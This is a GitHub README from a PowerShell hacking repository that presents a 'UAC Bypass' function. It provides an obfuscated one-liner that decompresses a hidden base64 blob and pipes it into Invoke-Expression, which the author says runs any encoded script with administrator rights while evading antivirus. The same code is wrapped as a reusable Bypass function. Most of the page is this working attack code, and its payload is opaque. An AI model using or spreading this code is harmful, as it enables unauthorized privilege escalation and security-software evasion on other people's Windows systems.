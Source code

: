 ![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/Assets/logo-170-px.png?raw=true)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#The-Function">The Function</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# UAC Bypass

<p align="center">
      <a href="https://www.youtube.com/watch?v=nBNmupIBI54">
        <img src=https://i.ytimg.com/vi/nBNmupIBI54/hqdefault.jpg width="300" alt="C#" />
      </a>
      <br>YouTube Tutorial
</p>

## Description

This is a bonus function I am including with this repository. It will allow you to run any base64 encoded script from a standard Powershell console regardless
if Admin Privledges are required. It will open an Admin prompt and execute your code bypassing the UAC. In order to get this past the Anti Virus I have to heavily 
obfuscate it. So with that being said you really should not run code if you do not know what it does so user discretion is advised. 

## The Function

### [UAC-Bypass] 

This function has 2 parts. 

You have the ```$code``` variable you can store any base64 encoded script into. 

You can use my [Text to Base64](https://github.com/I-Am-Jakoby/PowerShell-for-Hackers/blob/main/Functions/B64.md) function to encode your own scripts.

```
$code = "TgBlAHcALQBJAHQAZQBtACAAQwA6AFwASQB0AC0AVwBvAHIAawBlAGQALgB0AHgAdAA="
```
Next you have a highly obfuscated block of code that will run any Base64 encoded script stored in the ```$code``` variable with Admin rights. 

Using the code above as an example running both of these in a standard non Admin Powershell console will create a file called ```It-Worked.txt``` 

in your C: directory just to show you it works.

```
(nEw-OBJECt  Io.CoMpreSsion.DEflateSTrEaM( [SyStem.io.memoRYSTReaM][convErT]::fromBaSE64STriNg( 'hY49C8IwGIT/ykvoGjs4FheLqIgfUHTKEpprK+SLJFL99zYFwUmXm+6ee4rzcbti3o0IcYDWCzxBfKSB+Mldctg98c0TLa1fXsZIHLalonUKxKqAnqRSxHaH+ioa16VRBohaT01EsXCmF03mirOHFa0zRlrFqFRUTM9Udv8QJvKIlO62j6J+hBvCvGYZzfK+c2o68AhZvWqSDIk3GvDEIy1nvIJGwk9J9lH53f22mSdv') ,[SysTEM.io.COMpResSion.coMPRESSIONMoDE]::DeCompress ) | ForeacH{nEw-OBJECt Io.StReaMrEaDer( $_,[SySTEM.teXT.enCOdING]::aSciI )}).rEaDTOEnd( ) | InVoKE-expREssION
```

I have turned this bypass into a function as well. 

Using the following syntax you can run any Base64 encoded script as an Admin:

```
Bypass TgBlAHcALQBJAHQAZQBtACAAQwA6AFwASQB0AC0AVwBvAHIAawBlAGQALgB0AHgAdAA=
```

```
function Bypass {
[CmdletBinding()]
param (
[Parameter (Position=0, Mandatory = $True)]
[string]$code )

(nEw-OBJECt  Io.CoMpreSsion.DEflateSTrEaM( [SyStem.io.memoRYSTReaM][convErT]::fromBaSE64STriNg( 'hY49C8IwGIT/ykvoGjs4FheLqIgfUHTKEpprK+SLJFL99zYFwUmXm+6ee4rzcbti3o0IcYDWCzxBfKSB+Mldctg98c0TLa1fXsZIHLalonUKxKqAnqRSxHaH+ioa16VRBohaT01EsXCmF03mirOHFa0zRlrFqFRUTM9Udv8QJvKIlO62j6J+hBvCvGYZzfK+c2o68AhZvWqSDIk3GvDEIy1nvIJGwk9J9lH53f22mSdv') ,[SysTEM.io.COMpResSion.coMPRESSIONMoDE]::DeCompress ) | ForeacH{nEw-OBJECt Io.StReaMrEaDer( $_,[SySTEM.teXT.enCOdING]::aSciI )}).rEaDTOEnd( ) | InVoKE-expREssION
}
``` 
 
 
<p align="right">(<a href="#top">back to top</a>)</p>


<!-- CONTACT -->
## Contact

<h2 align="center">📱 My Socials 📱</h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://youtube.com/c/IamJakoby?sub_confirmation=1">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/youtube-svgrepo-com.svg width="48" height="48" alt="C#" />
      </a>
      <br>YouTube
    </td>
    <td align="center" width="96">
      <a href="https://twitter.com/I_Am_Jakoby">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/twitter.png width="48" height="48" alt="Python" />
      </a>
      <br>Twitter
    </td>
    <td align="center" width="96">
      <a href="https://www.instagram.com/i_am_jakoby/">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/insta.png width="48" height="48" alt="Golang" />
      </a>
      <br>Instagram
    </td>
    <td align="center" width="96">
      <a href="https://discord.gg/MYYER2ZcJF">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/discord-v2-svgrepo-com.svg width="48" height="48" alt="Jsonnet" />
      </a>
      <br>Discord
    </td>
  </tr>
</table>
</div>


<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [UberGuidoZ](https://github.com/UberGuidoZ)

***

[HOME-PAGE](https://github.com/I-Am-Jakoby/PowerShell-for-Hackers)

<p align="right">(<a href="#top">back to top</a>)</p>

